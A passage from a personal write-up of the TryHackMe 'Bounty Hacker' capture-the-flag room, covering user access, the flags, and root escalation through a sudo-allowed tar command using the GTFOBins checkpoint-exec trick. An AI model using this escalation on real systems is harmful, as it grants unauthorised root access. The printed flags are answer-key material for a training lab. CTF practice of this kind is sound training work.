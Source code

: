 ```

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
```
OK Now lets look around.
```
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```
If I am honest I then did the sudo -l check and when it asked for the password, I forgot that I had it. I then spent 20 minutes figuring out what to do. Checked for SUID bits, had a look around the machine, and the lightbulb moment that I needed, came AFTER I found the .ssh file. I thought "I'll use that to get a proper login", which is where I remembered I actually have the bloody password in the first place.
Now with my password, the rest was smooth going.
```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
So a quick look at GTFObins for tar and I had the command to give me privalage escalation, followed by a quick search for the flag.
```
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos
# cd /root
# ls
root.txt
# cat root.txt	
THM{80UN7Y_h4cK3r}
# 
```
I really enjoyed this CTF. Nice story, TBH I was put off a little by the title as I didn't think that I would be good enough to do it, but more and more I'm finding as long as you are methodical and follow a plan, things work out.

This room was created by ![Sevuhl](https://tryhackme.com/p/Sevuhl) and one I really enjoyed.

Thanks Sevuhl. :)

Regards

Karti

<script src="https://tryhackme.com/badge/65208"></script>


